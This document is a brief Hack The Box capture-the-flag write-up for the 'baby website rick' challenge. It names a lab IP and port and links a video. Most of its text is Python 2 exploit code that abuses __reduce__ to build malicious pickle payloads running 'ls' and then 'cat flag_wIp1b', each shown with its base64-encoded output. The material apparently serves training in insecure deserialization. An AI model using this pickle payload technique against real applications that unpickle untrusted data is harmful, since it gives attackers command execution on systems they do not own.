

Hack The Box | baby website rick
IP: 94.237.63.201:46248
Watch the video tutorial: Tutorial Video

This is base64 encoded:

import subprocess
import pickle
import base64
import pickletools
class anti_pickle_serum(object):
def __init__(self):
pass
def __reduce__(self):
cmd = ('ls')
return subprocess.check_output, ([cmd],)
original_pickle = base64.b64decode('KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu')
serum = pickle.dumps({'serum': anti_pickle_serum()}, protocol=0)
print(base64.b64encode(serum))
Run the code in Python 2, the above code will give:
KGRwMApTJ3NlcnVtJwpwMQpjc3VicHJvY2VzcwpjaGVja19vdXRwdXQKcDIKKChscDMKUydscycKcDQKYXRwNQpScDYKcy4=

Import the following code:
import subprocess
import pickle
import base64
import pickletools
class anti_pickle_serum(object):
def __init__(self):
pass
def __reduce__(self):
cmd = ['cat', 'flag_wIp1b']
return subprocess.check_output, (cmd,)
original_pickle = base64.b64decode('KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu')
serum = pickle.dumps({'serum': anti_pickle_serum()}, protocol=0)
print(base64.b64encode(serum))
The above code will give:
KGRwMApTJ3NlcnVtJwpwMQpjc3VicHJvY2VzcwpjaGVja19vdXRwdXQKcDIKKChscDMKUydjYXQnCnA0CmFTJ2ZsYWdfd0lwMWInCnA1CmF0cDYKUnA3CnMu